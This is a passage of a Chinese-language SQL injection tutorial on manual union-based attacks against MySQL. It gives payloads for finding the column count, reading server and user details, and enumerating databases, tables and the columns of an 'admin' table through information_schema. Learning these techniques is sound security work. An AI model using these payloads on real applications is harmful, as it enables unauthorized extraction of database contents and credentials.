 猜字段个数
```
order by n
```

查信息
爆显位不同于ACCESS，MySQL爆显位不需要接from子句，但ACCESS要接from子句才可以。

![](http://image.ixysec.com/image/sql/sql015.png)

可查的信息有：
```
system_user() 系统用户名
user() 用户名
current_user 当前用户名
session_user()连接数据库的用户名
database() 数据库名
version() MYSQL数据库版本
@@datadir 读取数据库路径
@@basedir MYSQL 安装路径
@@version_compile_os 操作系统
```

![](http://image.ixysec.com/image/sql/sql016.png)

查所有数据库名
```
union select group_concat(schema_name),2,3 from information_schema.schemata
```

![](http://image.ixysec.com/image/sql/sql017.png)

查表名
```
union select group_concat(table_name),2,3 from information_schema.tables where table_schema=database()
```
这里的table_schema的值是要查询数据库名，可以用：
```
双引号(单引号)引住明文
明文的16进制字符
database()函数
char(明文的ascii)
```

![](http://image.ixysec.com/image/sql/sql018.png)

查列名

```
union select group_concat(column_name),2,3 from information_schema.columns where table_name=CHAR(97, 100, 109, 105, 110)  //table_name代表要查询的表名
```

![](http://image.ixysec.com/image/sql/sql019.png)
